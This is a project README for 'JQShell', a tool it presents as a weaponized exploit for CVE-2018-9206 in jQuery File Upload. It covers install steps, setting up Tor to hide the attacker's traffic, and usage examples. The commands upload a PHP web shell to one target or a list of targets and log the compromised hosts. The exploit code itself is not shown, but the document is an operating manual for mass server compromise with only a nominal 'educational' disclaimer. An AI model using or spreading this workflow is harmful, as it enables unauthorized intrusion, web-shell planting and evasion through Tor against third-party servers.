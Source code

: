 **Disclaimer**Using this agianst servers you dont control, is illegal in most countries.
The author claims no responsibility for the actions of those who use this software for illegal purposes.
This software is intended for educational use only.
No servers were illegally pwned in the macking of this software

**JQShell** A weaponized version of CVE-2018-9206.

**Features**
Single Target
Multi Target
Tor

**Prerequisites**

Please install these required packages.

**Python3**
```
pip3 install requests pysocks subprocess stem
```
**Tor Control Port**
To use tor, in this script, you must edit your torrc file and enable tor control port on 9051.

Typically this file is here: /etc/tor/torrc

open this file and change this line:

#ControlPort 9051

to

ControlPort 9051

restart tor service

**Usage**

```shell
usage: jqshell.py [-h] [-l LIST_INIT] [-t SINGLE_TARGET] -s SHELL_LOC
                  [-o OUTPUTZ] [-tor]

optional arguments:
  -h, --help            show this help message and exit
  -l LIST_INIT, --list LIST_INIT
                        Select for a list of assets to exploit
  -t SINGLE_TARGET, --target SINGLE_TARGET
                        Single exploit target
  -s SHELL_LOC, --shell SHELL_LOC
                        This is required, put the fullpath to your shell
  -o OUTPUTZ, --output OUTPUTZ
                        This is full path to were you want to save your list
                        of confirmed hosts
  -tor, --tor_proxy     Select if you have tor installed, you will need to
                        enable control port
```
**Examples**

Running agianst single target.
```shell
python3 jqshell.py -t localhost/folderwerejqueryis -s /var/www/html/shell.php
```
Running agianst single target, with saving output.
```shell
python3 jqshell.py -t localhost/folderwerejqueryis -s /var/www/html/shell.php -o /pwned.txt
```
Running a list, with saving output.
python3 jqshell.py -l /opt/jquery/test.txt -s /var/www/html/shell.php -o /pwned.txt
```
**Author**

* **Joshua Whitaker** 
* *Twitter* [@_Stahlz](https://twitter.com/_Stahlz)
* *Email* - [stahl@stahl.io](stahl@stahl.io)
* *Website* - [stahl.io](http://stahl.io)



